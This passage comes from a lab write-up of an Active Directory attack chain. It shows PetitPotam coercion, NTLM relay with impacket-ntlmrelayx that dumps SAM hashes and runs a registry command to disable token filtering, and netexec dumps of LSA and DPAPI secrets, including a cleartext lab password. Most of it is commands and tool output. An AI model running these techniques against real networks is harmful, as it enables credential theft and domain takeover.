  | _ \   ___    | |_     (_)    | |_     | _ \   ___    | |_    __ _    _ __

                                                                                               
              ___            _        _      _        ___            _                     
             | _ \   ___    | |_     (_)    | |_     | _ \   ___    | |_    __ _    _ __   
             |  _/  / -_)   |  _|    | |    |  _|    |  _/  / _ \   |  _|  / _` |  | '  \  
            _|_|_   \___|   _\__|   _|_|_   _\__|   _|_|_   \___/   _\__|  \__,_|  |_|_|_| 
          _| """ |_|"""""|_|"""""|_|"""""|_|"""""|_| """ |_|"""""|_|"""""|_|"""""|_|"""""| 
          "`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-' 
                                         
              PoC to elicit machine account authentication via some MS-EFSRPC functions
                                      by topotam (@topotam77)
      
                     Inspired by @tifkin_ & @elad_shamir previous work on MS-RPRN


Trying pipe lsarpc
[-] Connecting to ncacn_np:DEV05.EU-IFRIT.VL[\PIPE\lsarpc]
[+] Connected!
[+] Binding to c681d488-d850-11d0-8c52-00c04fd90f7e
[+] Successfully bound!
[-] Sending EfsRpcOpenFileRaw!
[-] Got RPC_ACCESS_DENIED!! EfsRpcOpenFileRaw is probably PATCHED!
[+] OK! Using unpatched function!
[-] Sending EfsRpcEncryptFileSrv!
[+] Got expected ERROR_BAD_NETPATH exception!!
[+] Attack worked!

```

And now I have the SAM dump:

```bash
└─$ impacket-ntlmrelayx -t dev05.eu-ifrit.vl -smb2support 
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client WINRMS loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server on port 445
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server on port 9389
[*] Setting up RAW Server on port 6666
[*] Setting up WinRM (HTTP) Server on port 5985
[*] Setting up WinRMS (HTTPS) Server on port 5986
[*] Setting up RPC Server on port 135
[*] Multirelay disabled

[*] Servers started, waiting for connections
[*] (SMB): Received connection from 10.10.110.3, attacking target smb://dev05.eu-ifrit.vl
[*] (SMB): Authenticating connection from /@10.10.110.3 against smb://dev05.eu-ifrit.vl SUCCEED [1]
[*] All targets processed!
[*] (SMB): Connection from 10.10.110.3 controlled, but there are no more targets left!
[*] smb:///@dev05.eu-ifrit.vl [1] -> Service RemoteRegistry is in stopped state
[*] smb:///@dev05.eu-ifrit.vl [1] -> Service RemoteRegistry is disabled, enabling it
[*] smb:///@dev05.eu-ifrit.vl [1] -> Starting service RemoteRegistry
[*] smb:///@dev05.eu-ifrit.vl [1] -> Target system bootKey: 0x2a640e6e4c7c398cdf6c6aba3e00e587
[*] smb:///@dev05.eu-ifrit.vl [1] -> Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:82391e68ae2898cde407cf04536926a3:::
admin:1001:aad3b435b51404eeaad3b435b51404ee:d2365f0e5e8f7d52fb6d86b98ea1250a:::
[*] smb:///@dev05.eu-ifrit.vl [1] -> Done dumping SAM hashes for host: dev05.eu-ifrit.vl
[*] smb:///@dev05.eu-ifrit.vl [1] -> Stopping service RemoteRegistry
[*] smb:///@dev05.eu-ifrit.vl [1] -> Restoring the disabled state for service RemoteRegistry

```

But again the token filterization is in place not allowing me to login with those credentials so i will grab the flag from the samba share first:

&nbsp;

```bash
# ls
drw-rw-rw-          0  Tue Jul 16 20:15:40 2024 .
drw-rw-rw-          0  Tue Jul 16 20:15:40 2024 ..
-rw-rw-rw-        282  Sun Jul  7 13:08:30 2024 desktop.ini
-rw-rw-rw-         39  Fri Apr 25 08:28:29 2025 flag.txt
-rw-rw-rw-       2348  Sun Jul  7 13:08:30 2024 Microsoft Edge.lnk
# cat flag.txt
IFRIT{30aef3a3ade21f16f0b4d87f56840072}
# 

```

But here at the end I had to disable the local account token filterization that did not allow me to get a shell as admin(even if I am a local administrator):

```bash
└─$ impacket-ntlmrelayx -t dev05.eu-ifrit.vl -smb2support -c "reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f" 
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client WINRMS loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server on port 445
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server on port 9389
[*] Setting up RAW Server on port 6666
[*] Setting up WinRM (HTTP) Server on port 5985
[*] Setting up WinRMS (HTTPS) Server on port 5986
[*] Setting up RPC Server on port 135
[*] Multirelay disabled

[*] Servers started, waiting for connections
[*] (SMB): Received connection from 10.10.110.3, attacking target smb://dev05.eu-ifrit.vl
[*] (SMB): Authenticating connection from /@10.10.110.3 against smb://dev05.eu-ifrit.vl SUCCEED [1]
[*] All targets processed!
[*] (SMB): Connection from 10.10.110.3 controlled, but there are no more targets left!
[*] smb:///@dev05.eu-ifrit.vl [1] -> Service RemoteRegistry is in stopped state
[*] smb:///@dev05.eu-ifrit.vl [1] -> Service RemoteRegistry is disabled, enabling it
[*] smb:///@dev05.eu-ifrit.vl [1] -> Starting service RemoteRegistry
[*] smb:///@dev05.eu-ifrit.vl [1] -> Executed specified command on host: dev05.eu-ifrit.vl
The operation completed successfully.

[*] smb:///@dev05.eu-ifrit.vl [1] -> Stopping service RemoteRegistry
[*] smb:///@dev05.eu-ifrit.vl [1] -> Restoring the disabled state for service RemoteRegistry

```

And now I have what i need, both the creds of the DEV05\$ computer object but also Jack Credentials as well:

```bash
┌──(user㉿kali-almi)-[~/Downloads/ifrit]
└─$ netexec smb 172.16.41.40 -u Admin -H d2365f0e5e8f7d52fb6d86b98ea1250a --local-auth --lsa --dpapi
SMB         172.16.41.40    445    DEV05            [*] Windows 10 / Server 2019 Build 19041 x64 (name:DEV05) (domain:DEV05) (signing:False) (SMBv1:None)
SMB         172.16.41.40    445    DEV05            [+] DEV05\Admin:d2365f0e5e8f7d52fb6d86b98ea1250a (Pwn3d!)
SMB         172.16.41.40    445    DEV05            [*] Dumping LSA secrets
SMB         172.16.41.40    445    DEV05            EU-IFRIT.VL/Jack.Smith:$DCC2$10240#Jack.Smith#e91ef28726c30869c90c217a57944c5d: (2026-04-02 02:04:18)
SMB         172.16.41.40    445    DEV05            EU-IFRIT\DEV05$:aes256-cts-hmac-sha1-96:8ecaee5760736599645c37fe4974f37db2930370052c62234cc81302c47d57b3
SMB         172.16.41.40    445    DEV05            EU-IFRIT\DEV05$:aes128-cts-hmac-sha1-96:df016c86e0320eb7df0690c7d5d8f44b
SMB         172.16.41.40    445    DEV05            EU-IFRIT\DEV05$:des-cbc-md5:e92fc775efd6bcb6
SMB         172.16.41.40    445    DEV05            EU-IFRIT\DEV05$:plain_password_hex:46b12ed4b34422778bbc61ca6e346ca380ef60275622784e549c21ffdd66ecdefed5ae04d4b4bb45683eee1ab71dbefcf5f0118add4de6a0df69673307dfa4900692b9dd7a2aed84eba7bc7c6d97bb19dcc99ac626db4bb8e5c5fab2c198994f72149d85b494faaf0edb59bee7bc024f963188c98d6601c87236a0019278bb992ecbe2cf71002d3dbb7a63f76b7b66cdf06854a1706e5ca0b85627f875e92291cddd0cc9288dac0651ef80a438f4c2e03de5c3925a1e46f421a078337c6eed0c6003e7b853da5c6f3087e2b1616d869a3010fb32cab8ca2f0760115949a470271b0aaa7a4cef82e82c5eb6232e16c7ad
SMB         172.16.41.40    445    DEV05            EU-IFRIT\DEV05$:aad3b435b51404eeaad3b435b51404ee:4001bbacf07691546a4aa1926235580e:::
SMB         172.16.41.40    445    DEV05            eu-ifrit.vl\jack.smith:DXt9boDb8W_doj
SMB         172.16.41.40    445    DEV05            dpapi_machinekey:0xf807052baaf191ddc4f7fbb5d11e417d90faa8b5
dpapi_userkey:0x074237cc180eb831bb45706aa7788ab871806447
SMB         172.16.41.40    445    DEV05            [+] Dumped 8 LSA secrets to /home/user/.nxc/logs/lsa/DEV05_172.16.41.40_2026-04-02_122543.secrets and /home/user/.nxc/logs/lsa/DEV05_172.16.41.40_2026-04-02_122543.cached
SMB         172.16.41.40    445    DEV05            [*] Collecting DPAPI masterkeys, grab a coffee and be patient...
SMB         172.16.41.40    445    DEV05            [+] Got 7 decrypted masterkeys. Looting secrets...

```

# Post Exploitation

Now this new jack user hash the ability to login into a MSSQL server, opposed to the inhability that Annette had before:

```bash
──(user㉿kali-almi)-[~/Downloads/ifrit]
└─$ netexec mssql 172.16.41.0/24 -u jack.smith -p DXt9boDb8W_doj
MSSQL       172.16.41.250   1433   SQL03            [*] Windows Server 2022 Build 20348 (name:SQL03) (domain:eu-ifrit.vl) (EncryptionReq:False)
MSSQL       172.16.41.251   1433   SQL07            [*] Windows Server 2022 Build 20348 (name:SQL07) (domain:it-ifrit.vl) (EncryptionReq:False)
MSSQL       172.16.41.250   1433   SQL03            [+] eu-ifrit.vl\jack.smith:DXt9boDb8W_doj 
MSSQL       172.16.41.251   1433   SQL07            [-] it-ifrit.vl\jack.smith:DXt9boDb8W_doj (Login failed. The login is from an untrusted domain and cannot be used with Integrated authentication. Please try again with or without '--local-auth')

```

Next, this path looks very interesting but I am neither able to pursuit a RBCD nor a Shadow credentials so i am kinda stuck here:



Plus I can also see that Jack is part of the local admins? Then I could have pwned the machine without the need of using the NTLM reflection:

```bash
─$ netexec smb 172.16.41.40 -u jack.smith -p DXt9boDb8W_doj 
SMB         172.16.41.40    445    DEV05            [*] Windows 10 / Server 2019 Build 19041 x64 (name:DEV05) (domain:eu-ifrit.vl) (signing:False) (SMBv1:None)
SMB         172.16.41.40    445    DEV05            [+] eu-ifrit.vl\jack.smith:DXt9boDb8W_doj (Pwn3d!)

```

For some damn reason I can't find that SQL01 machine's IP?

```bash
                                                                                                                                                                                                              
┌──(user㉿kali-almi)-[~/Downloads/ifrit]
└─$ cat records.csv                         
type,name,value
A,VDI02,172.16.41.225
A,SQL03,172.16.41.250
A,ForestDnsZones,172.16.41.14
A,DomainDnsZones,172.16.41.14
A,dev051UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA,10.10.14.9
A,DEV05,172.16.41.40
A,dc03,172.16.41.14
NS,_msdcs,dc03.eu-ifrit.vl.
NS,@,dc03.eu-ifrit.vl.
A,@,172.16.41.14

```

On the object it is written than this server is Retired? But the AD object is still active.



I feel confident I can move on!

&nbsp;

&nbsp;